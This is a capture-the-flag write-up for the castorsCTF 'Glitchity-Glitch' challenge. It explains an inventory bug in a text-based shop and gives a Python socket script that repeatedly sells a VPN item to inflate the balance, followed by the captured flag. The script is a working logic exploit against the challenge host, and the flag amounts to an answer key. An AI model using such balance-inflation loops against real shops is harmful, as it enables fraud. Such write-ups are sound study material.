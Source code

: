 # Glitchity-Glitch

Connecting to the server at the specified port gives us a text base shop, where we have a balance, a list of items we can buy, and the ability to sell any items we buy for the original price.

One of the items is a flag, however, the cost of this item (6000) is far greater than the amount of money we start with.

## Solution

We need to find a way of increasing the user balance to be greater than or equal to the cost of the flag.

If try buying and selling each item, we notice that the VPN item can be bought and sold as normal, except the amount doesn't decrease when sold.
With this in mind, we can buy 1 VPN and sell it an unlimited number of times until we reach the correct balance.

Although it is theoretically possible to do this manually, the VPN costs very little in comparison to the flag, and this would require far too much time.
The process can be automated using the ```socket``` python module.

## Script

```py
#!/usr/bin/python
import socket

def netcat(hostname, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))

    hasVPN = False
    selling = False
    working = True
    done = False
    flag = ""

    while not done:
        data = s.recv(1024)
        for item in data.decode().split("\n"):
            if "Your money: " in item and not "Here's" in item:
                print(f'{item} \r', end="")
                break
        if "Your money: 6000" in data.decode():
            working = False
        if "Choice: " in data.decode():
            if not working:
                message = "5\n"
            else:
                if hasVPN and selling:
                    message = "0\n"
                    selling = False
                elif hasVPN and not selling:
                    message = "1\n"
                    selling = True
                else:
                    message = "6\n"
                    hasVPN = True
            s.sendall(message.encode())
        if "castorsCTF" in data.decode():
            print("Flag:", data.decode())
            for item in data.decode().split("\n"):
                if "castorsCTF" in item:
                    flag = item
                    break
            done = True
    print("Connection closed.")
    s.shutdown(socket.SHUT_WR)
    s.close()
    return flag

flagFileContents = netcat("chals20.cybercastors.com", 14432)

f = open("flag.txt", "w")
f.write(flagFileContents)
f.close()
```

Flag: ```castorsCTF{$imPl3_sTUph_3h?}```

